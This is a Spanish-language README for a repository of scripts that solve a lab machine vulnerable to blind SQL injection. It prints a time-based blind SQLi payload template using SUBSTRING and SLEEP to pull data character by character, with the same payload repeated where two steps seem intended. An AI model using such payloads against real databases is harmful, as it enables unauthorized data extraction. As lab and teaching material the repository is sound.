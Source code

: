 # Shell2SQLi
Este repositorio contiene scripts utilizados para `Shell_2`, una máquina con vulnerabilidad SQLi Blind.

## Consideraciones de la máquina

Algunas consideraciones
> El host `192.168.44.134` no está editado en los scripts, la VM se utilizó con configuración NAT
> 
> Uso de encabezado `X-Forwarded-For`
> 
> https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval
> 
## Impacto vulnerabilidad SQLi

### Procedimiento:
Partiendo de la base en la que podemos validar una inyección exitosa con
```SQL
  1' OR IF((SELECT SUBSTRING($column,$position,1) FROM $db_name.$table_name LIMIT $row_index,1)='$char', SLEEP(0.043), 0) #
```
Procedimos a 
```SQL
  1' OR IF((SELECT SUBSTRING($column,$position,1) FROM $db_name.$table_name LIMIT $row_index,1)='$char', SLEEP(0.043), 0) #
```
    
## Disclaimer

El autor no se hace responsable de algún uso inadecuado que pueda causar impactos negativos. El propósito es y sólo es con fines educativos.
Las contribuciones son bienvenidas, también siéntete libre de mejorar y modificar según sea necesario.
